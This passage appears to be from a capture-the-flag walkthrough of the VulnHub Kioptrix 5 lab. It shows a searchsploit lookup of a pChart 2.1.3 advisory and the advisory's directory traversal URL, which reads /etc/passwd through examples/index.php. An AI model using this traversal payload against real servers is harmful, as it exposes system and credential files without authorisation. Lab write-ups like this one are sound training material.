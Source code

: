 we got text file that explains vulnerabilities about PChart 2.1.3 , and download 31173.txt file.

```
 searchsploit -m php/webapps/31173.txt
  Exploit: pChart 2.1.3 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/31173
     Path: /usr/share/exploitdb/exploits/php/webapps/31173.txt
    Codes: OSVDB-102596, OSVDB-102595
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/voidgojo/CTF/VulnHub/Kioptrix/5/31173.txt


ls
31173.txt  full_scan.txt  host_discovery.txt
```

as we know that , the site vulnerable to directory traversal. , let try

```
1] Directory Traversal:
"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"
The traversal is executed with the web server's privilege and leads to
sensitive file disclosure (passwd, siteconf.inc.php or similar),
access to source codes, hardcoded passwords or other high impact
consequences, depending on the web server's configuration.
This problem may exists in the production code if the example code was
copied into the production environment.

```

add this `examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd` to `ip_address/pChart2.1.3`/ path

<img src="../img/Pasted image 20240626115746.png" alt="Example Image" width="1080"/>
